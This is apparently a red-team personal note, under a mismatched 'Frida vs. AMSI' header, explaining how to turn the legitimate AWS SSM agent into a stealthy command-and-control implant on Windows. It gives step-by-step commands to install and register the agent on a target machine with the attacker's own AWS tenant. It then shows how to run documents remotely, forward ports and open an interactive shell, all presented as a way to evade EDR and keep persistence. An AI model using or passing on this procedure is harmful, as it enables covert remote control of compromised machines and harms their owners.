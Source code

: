 ```yaml
---
title: Frida vs. AMSI
description: Let's use Frida to explore all the different ways we can patch or break the Anti-Malware Scan Interface.
---
```


# Using Amazon SSM as a C2 implant (Windows)

From my personal notes. Communication with the AWS API is often ignored by EDR, and the SSM agent is a legitimate utility that has a business use case in many environments. Using standard enterprise tooling instead of signature C2 frameworks is a great way to maintain stealthy persistence in a heavily monitored environment.

Step 1: Clone from [https://github.com/aws/amazon-ssm-agent](https://github.com/aws/amazon-ssm-agent) and build for Windows.  
Step 2: Transfer all binaries from appropriate release folder to target machine. Put them in `C:\Program Files\Amazon\SSM\` as a local administrator.  
Step 3: Log into the AWS console for your own tenant. Navigate to Systems Manager, and from there to *Hybrid Activations*.  
Step 4: Create a new hybrid activation. Record the activation code and ID.  

Step 5: If required, set proxy information on the target machine:

```powershell
set http_proxy=http://hostname:port
set https_proxy=http://hostname:port
```

Step 6: Using a local administrator account, register the target machine with AWS:

```powershell
.\amazon-ssm-agent.exe -region "<region>" -id "<activation id>" -code "<activation code>" -register
```

Step 7: Invoke the agent as a local administrator:

```powershell
.\amazon-ssm-agent.exe
```

You can now invoke run documents remotely on the machine as long as the agent is running. For example, to set up port forwarding:

```sh
aws ssm start-session --target <instance-id> --document-name AWS-StartPortForwardingSession --parameters '{"portNumber":["80"],"localPortNumber":["9999"]}'
```

If you want to use the interactive session manager shell (Windows Server only), go to [https://github.com/rprichard/winpty/](https://github.com/rprichard/winpty/) and download the latest release. Then transfer `winpty.dll` and `winpty-agent.exe` to:

- `C:\Program Files\Amazon\SSM\Plugins\SessionManagerShell\`